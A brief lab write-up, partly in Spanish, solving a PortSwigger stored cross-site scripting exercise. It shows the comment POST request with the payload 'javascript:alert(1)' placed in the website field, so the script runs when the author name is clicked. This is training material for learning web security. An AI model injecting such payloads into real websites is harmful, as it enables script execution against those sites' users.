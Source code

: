 # REVIEW - Anchor href attribute with double quotes HTML-encoded

> This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

Cambiamos el post de la website para ejecutar codigo js y listo:

```text
csrf=eVRawyL7nnb79R9NaJp18JzGbogTC86d&postId=8
&comment=aaa&name=Aguante+bokita+papa&email=boke%40boke.com
&website=javascript:alert(1)
```


